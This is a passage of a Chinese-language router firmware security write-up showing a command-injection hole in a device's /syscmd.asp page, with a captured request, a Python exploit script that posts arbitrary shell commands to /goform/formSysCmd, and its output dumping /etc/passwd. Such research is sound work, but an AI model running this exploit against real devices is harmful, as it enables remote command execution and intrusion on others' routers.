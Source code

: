 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/ny8tG5SicPMl2JbqKpTRiaYMQQB0Nib6GTVyicibnNRM0zpVAIAoluCKoX7AiaCUtazk3ZKhaF9dRxETSkngRwlpN66A/640?wx_fmt=png&from=appmsg "")  
  
接下来，我们访问有漏洞的页面 /syscmd.asp ，如下图所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ny8tG5SicPMl2JbqKpTRiaYMQQB0Nib6GTVyuVibMibrV46oq49H5YXhjtiap36FvjBqjU8JhzyTokcOAyRF7jBAiaZFg/640?wx_fmt=png&from=appmsg "")  
  
看到这个页面，再看我们之前看到的 syscmd.asp 的源码就容易理解多了。我们在 input 框输入命令 cat /etc/passwd  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ny8tG5SicPMl2JbqKpTRiaYMQQB0Nib6GTVIPt8mAxJccuUHUKxQ9SJwWUVEfDXjWy6xVA7aPAOUG7DA850KzPOIw/640?wx_fmt=png&from=appmsg "")  
  
可以看到，命令成功执行。  
  
我们可以抓包来看一下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ny8tG5SicPMl2JbqKpTRiaYMQQB0Nib6GTV7dSP1e7CYoKp5Hvdmmc4tlhGIxGjuVuYfayWwaRPCA5xfKhulFQuew/640?wx_fmt=png&from=appmsg "")  
  
可以看到 sysCmd 参数就是传递我们命令的参数，从第一行也可以看到，真正执行命令的后台程序为 /goform/formSysCmd 。感觉也是为我们分析漏洞多了一种思路。  
  
我们也可以通过exploit脚本来攻击该漏洞：  
```
#rb1732_exploit.py
import requests
import sys

def test_httpcommand(ip, command):
    my_data = {'sysCmd': command, 'apply':'Apply', 'submit-url':'/syscmd.asp', 'msg':''}
    r = requests.post('http://%s/goform/formSysCmd' % ip, data = my_data)
    content = r.text
    content = content[
        content.find('textarea row="15" name="msg" cols="80" wrap="virtual">')+56:content.rfind('</textarea>')
    ]
    return content

print test_httpcommand(sys.argv[1]," ".join(sys.argv[2:]))
```  
  
执行结果如下：  
```
iot@attifyos ~/D/firmware> python rb1732_exploir.py 192.168.1.1 "cat /etc/passwd"
root:x:0:0:root:/:/bin/sh
nobody:x:0:0:nobody:/:/dev/null
ftp:x:501:501::/var/home/anonymous:/dev/null
ftpuser:x:502:502::/var/home:/dev/null
admin:x:503:503::/home:/dev/null
```  
## 0x04 参考链接  
  
  
http://www.mchz.com.cn/cn/service/Safety-Lab/info_26_itemid_6142.html  
  
  
